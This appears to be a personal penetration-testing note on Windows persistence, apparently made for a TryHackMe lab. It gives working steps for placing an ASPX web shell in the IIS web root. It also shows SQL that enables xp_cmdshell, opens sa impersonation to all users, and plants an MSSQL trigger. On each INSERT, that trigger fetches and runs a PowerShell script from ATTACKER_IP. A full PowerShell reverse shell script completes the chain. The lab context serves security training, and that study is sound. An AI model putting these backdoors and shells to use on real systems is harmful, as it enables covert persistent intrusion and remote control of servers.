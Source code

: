 
# Windows Persistence - Implant Existing Services

Target applications where you have some degree of control on what gets executed should be backdoorable similarly.

## Implanting Web Server Using Web Shells

`iis apppool\defaultapppool` even though it is not a administrators group member or equivalent has `SeImpersonatePrivilege`, which can easily escalatepost reverse shell call back. See [[SePrivilege-Token-Table]].

```powershell
#  place shell in web directory
move shell.aspx C:\inetpub\wwwroot\
```

[Link to a web shell recommended on THM](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx)

## MSSQL as Backdoor
There are many I will update this section as I research them or come across or are messsage about.

#### MSSQL Server Installation

This option uses [triggers](https://learn.microsoft.com/en-us/sql/t-sql/statements/create-trigger-transact-sql?view=sql-server-ver16) in MSSQL which allow the binding of functionality to events that occur in the database. It requires requires the databases to be configured to enable `xp_cmdshell`, [disabled by default](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver16) and *"as a security best practice it is recommended to only enable it for the duration of the actual task that requires it."*

The [THM room](https://tryhackme.com/room/windowslocalpersistence) uses the  `Microsoft SQL Server Management Studio 18`,by default, the local Administrator account will have access to all DBs.

Click to `New Query`, then reconifgure the database to allow for `xp_cmdshell`:
```sql
sp_configure 'Show Advanced Options',1;
RECONFIGURE;
GO

sp_configure 'xp_cmdshell',1;
RECONFIGURE;
GO
```
By default only users with `sysadmin` (default administrator) role can run `xp_cmdshell`, so grant privilege to all users of the `sa` user. 
```sql
USE master

GRANT IMPERSONATE ON LOGIN::sa to [Public];

USE HRDB
```

Create the trigger whenever `INSERT` is used against the database to then download:
```sql
CREATE TRIGGER [sql_backdoor]
ON HRDB.dbo.Employees 
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://ATTACKER_IP:8000/evilscript.ps1'')"';
```

[[Reverse-Shells-Listing]] for example in powershell

```powershell
# evilscript.ps1
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",4454);

$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};

$client.Close()
```



## References

[create trigger documentation](https://learn.microsoft.com/en-us/sql/t-sql/statements/create-trigger-transact-sql?view=sql-server-ver16)
[xp_cmdshell documentatIon](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver16)